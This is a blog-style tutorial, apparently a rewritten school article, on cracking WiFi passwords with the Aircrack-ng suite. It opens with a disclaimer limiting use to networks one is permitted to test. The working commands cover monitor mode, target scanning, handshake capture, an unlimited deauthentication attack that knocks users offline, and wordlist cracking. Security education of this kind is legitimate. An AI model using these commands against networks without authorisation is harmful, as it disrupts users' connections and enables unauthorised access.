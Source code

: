 ```yaml
---
author: "UmmIt"
title: "Brute-Force Attack with Aircrack-ng on WiFi Networks"
date: 2024-07-06T22:06:14+0800
tags: ["Aircrack-ng", "high-school-article-rewrite", "Cyber-Security", "WiFi"]
lastmod: 2024-12-31T06:24:58+0800
---
```


## Aircrack-ng?

to make a long story short. Aircrack-ng is a network software suite consisting of WiFi security tools that can be used to assess the security of wireless networks. It focuses on different areas of WiFi security, including monitoring, attacking, testing, and cracking.

### Disclaimer

This guide is for educational purposes only. Unauthorized access to wireless networks is illegal and unethical. Always obtain permission from the network owner before attempting to access or test their network security.

Only cracking your own network or network owner allowed you to do this.

## Step 1: Hardware Requirements

To getting started with Aircrack-ng, you'll need a compatible wireless network adapter that supports monitor mode and packet injection.

And also, Use a computer with a GNU/Linux operating system, such as Kali Linux, which comes pre-installed with Aircrack-ng. or you can install by yourself. like this:

```bash
sudo pacman -S aircrack-ng
```

>Note: Below action will use sudo previlege all the time. So its better to use root user.

## Step 2: Checking Card Status

First, check if your wireless card supports monitor mode and recognizes the wireless interface:

```shell
iwconfig
```
![iwconfig](./iwconfig.gif)

## Step 3: Starting Monitor Mode

Enable monitor mode on your wireless interface `wlan0` its will disable your network connection.

```shell
airmon-ng start wlan0
```
![airmon-ng start wlan0](./airmon-ng%20start%20wlan0.png)

## Step 4: Finding Target WiFi Network

Identify the WiFi network, we will need the following information for the target network and crack it.

- ESSID (network name)
- BSSID (MAC address of the access point)
- Channel number

```shell
airodump-ng wlan0mon
```
![airodump-ng wlan0mon](./airodump-ng%20wlan0mon.gif)

## Step 5: Creating Capture File

Capture data from the target network:

```shell
airodump-ng -d [BSSID] -c[channel] -w [capture filename] wlan0mon
```
![Creating Cap file](./capfile.gif)
![Creating Cap file-2](./capfile-2.gif)
![file](./file.gif)

## Step 6: Performing Deauthentication Attack

This will fucking disconnect that wifi network and trying to capture inside the user handshark by they reconnecting to the network. The handshake aor PMKID is necessary to crack the WiFi password. You also can use the handshark and use other tools to crack the password like hashcat.

```shell
aireplay-ng --deauth 0 -a [BSSID] wlan0mon
```
![Device deauth](./handshake.gif)

## Step 7: Cracking the Password

Once you've captured the handshake or PMKID, use Aircrack-ng to crack the WiFi password:

```shell
aircrack-ng [capture filename] -w [password list file]
```

![Cracking password](./cracking.png)

## Finaly Step: Closing Monitor Mode

After you've finished testing the network security, stop the monitor mode on your wireless interface, and now your network connection will be back.

```shell
airmon-ng stop wlan0mon
```
![Stop Monitor Mode](./stop.png)
